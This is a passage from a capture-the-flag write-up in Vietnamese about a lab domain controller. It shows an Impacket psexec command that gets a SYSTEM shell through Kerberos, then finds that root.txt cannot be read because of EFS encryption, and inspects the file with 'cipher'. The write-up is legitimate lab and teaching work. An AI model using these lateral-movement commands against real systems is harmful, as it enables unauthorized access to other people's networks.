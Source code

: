 ```
psexec.py lab.trusted.vl/Administrator@trusteddc.trusted.vl -k -no-pass -target-ip 10.10.193.213
Impacket v0.12.0 - Copyright Fortra, LLC and its affiliated companies 

[*] Requesting shares on 10.10.193.213.....
[*] Found writable share ADMIN$
[*] Uploading file yiOEnQra.exe
[*] Opening SVCManager on 10.10.193.213.....
[*] Creating service CLNJ on 10.10.193.213.....
[*] Starting service CLNJ.....
[!] Press help for extra shell commands
Microsoft Windows [Version 10.0.20348.887]
(c) Microsoft Corporation. All rights reserved.

C:\Windows\system32> cd C:\Users\Administrator\Desktop 
 
C:\Users\Administrator\Desktop> dir
 Volume in drive C has no label.
 Volume Serial Number is 18DF-F3CB

Directory of C:\Users\Administrator\Desktop

09/19/2022  04:01 PM    <DIR>          .
12/09/2024  11:34 AM    <DIR>          ..
09/14/2022  09:31 AM                36 root.txt
               1 File(s)             36 bytes
               2 Dir(s)  17,308,872,704 bytes free

C:\Users\Administrator\Desktop>type root.txt
Access is denied.

C:\Users\Administrator\Desktop> whoami
nt authority\system
```

Như có thể thấy ở đây, tuy ta đã là SYSTEM ở DC nhưng mà vẫn không đọc được file này, lí do là đây là một file bị EFS encrypt, do đã từng gặp trường hợp tương tự trước đây chơi ở bên HackTheBox, hình như là box Flight hay RE gì gì đó. Nói chung là đây là 1 cơ chế [mã hóa](https://learn.microsoft.com/en-us/windows/win32/fileio/file-encryption) của Windows, mỗi file như này khi được mã hóa thì sẽ có những user nhất định có khả năng đọc được, ta có thể biết được sử dụng cmdlet *cipher*

```
C:\Users\Administrator\Desktop> cipher /c root.txt
 
 Listing C:\Users\Administrator\Desktop\
 New files added to this directory will be encrypted.

E root.txt
  Compatibility Level:
    Windows XP/Server 2003

  Users who can decrypt:
    TRUSTED\Administrator [Administrator(Administrator@TRUSTED)]
    Certificate thumbprint: FFA5 6CDD 0797 CFD7 AA58 C004 2368 67D3 1B75 1553 

  Recovery Certificates:
    TRUSTED\Administrator [administrator(administrator@TRUSTED)]
    Certificate thumbprint: 1FB2 6DE1 F581 0571 F3DD 879B F1D5 B72C B481 C6DA 

  Key information cannot be retrieved.

The specified file could not be decrypted.
```
